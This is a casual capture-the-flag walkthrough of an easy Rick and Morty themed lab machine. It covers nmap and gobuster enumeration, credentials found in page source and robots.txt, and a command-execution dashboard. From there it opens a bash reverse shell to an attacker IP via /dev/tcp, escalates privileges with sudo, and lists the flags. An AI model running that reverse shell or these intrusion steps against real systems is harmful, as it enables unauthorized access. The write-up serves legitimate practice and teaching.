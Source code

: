### Rick and Morty, how i did it at least
I dont usually do any of this stuff so this walkthrough is going to be pretty straight forward. We like web pentesting, its fun, this machine is pretty easy, there is many ways to solve it.

Ill probably do this more often as i do need to practice solving machines on thm and htb if i want to keep things going.



1. First throw nmap at it

-sC: default scripts

-sV: service version detection

-oN: save output to a file
``` bash
nmap -sC -sV -oN nmap_scan.txt <TARGET_IP>
```

2. After that we know we also have SSH, but first we go into our browser and search for anything in it hitting ctrl+u. We got a user:

``` HTML<>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
![user](screenies/user.png)

3. We also hit it with some basic dirbuster to see if we can hit any new directories:

``` bash
gobuster dir -u http://10.10.246.189 -w /usr/share/wordlists/dirb/common.txt -t 40
```

Results:

```
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.10.246.189/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)

```

4. Looking into our robots.txt
```bash
curl http://10.10.246.189/robots.txt
```
Results
```
Wubbalubbadubdub
```
![password](screenies/password.png)


## Thoughts by this point

We definitely have a user as stated by the plain html, do we have a password? I need a login to test this stuff out

5. dirbuster again with more params:
```bash
gobuster dir -u http://10.10.246.189 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 40
```
oh
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.246.189
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 315] [--> http://10.10.246.189/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
Progress: 103142 / 882244 (11.69%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 103265 / 882244 (11.70%)
===============================================================
Finished
===============================================================

```

6. WE already got a dashboard pannel with ``` R1ckRul3s:Wubbalubbadubdub```

7. We've got a dashboard that lets us run commnands as the www-data user, which means we can probs pop a shell:
![what](screenies/www-data.png)


8. To avoid any weird shells we are just going to try a nice one liner (a bash one cause yeah). Bring up your listener:
```bash
nc -lvnp 4444
```

9. pop a one liner on the execution box in the dashboard and try to catch a shell
``` bash
bash -c 'bash -i >& /dev/tcp/10.6.8.184/4444 0>&1'
```

10. Good enaoughhhh

![shell](screenies/yippyshell.png)


11. From here one we can traverse as usual:
```bash
ls -la
```
Result(we landed):
![landingdir](screenies/firstlookatdir.png)

12. that ```Sup3rS3cretPickl3Ingred.txt``` is looking funny so i just ```cat``` it. Its a flag:
```
mr. meeseek hair
```
13. there is also ```clue.txt``` so same thing:
```
Look around the file system for the other ingredient.
```
that was kinda the plan, thx tho

14. At this point
```bash
cd /
```

```bash
cd home/rick/
```
15. There is a file here called 'second ingredients' so just cat that(its a flag):
```bash
1 jerry tear
```

## Before moving on
I was thinking of priv esc:
```bash
sudo -l
```
Turns out i couldve done that earlier
```
Matching Defaults entries for www-data on ip-10-10-246-189:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-246-189:
    (ALL) NOPASSWD: ALL

```

16. ```sudo su```

17. From here its just looking for flags lol, so i move back to the root dir

```bash
cd /
```

Then went to root dir

```bash
cd root
```

18. Do ls on a bish:

![3rd](screenies/noway.png)

19. just cat 3rd.txt, thats the flag:
```bash
3rd ingredients: fleeb juice
```

## Funny box, 
this was funny to do at 1 am, its a pretty easy box, like very entry  level, there is actually very little to do, as soon as you have access to the dashboard you could probably do just about everything through the command execution box.

Its great to manage and understand gettint a reverse shell and nice to learn how to look for dirs and clues in general when first getting familiarized with a web app, noting crazy.

Ill do a harder one next time maybe idk.
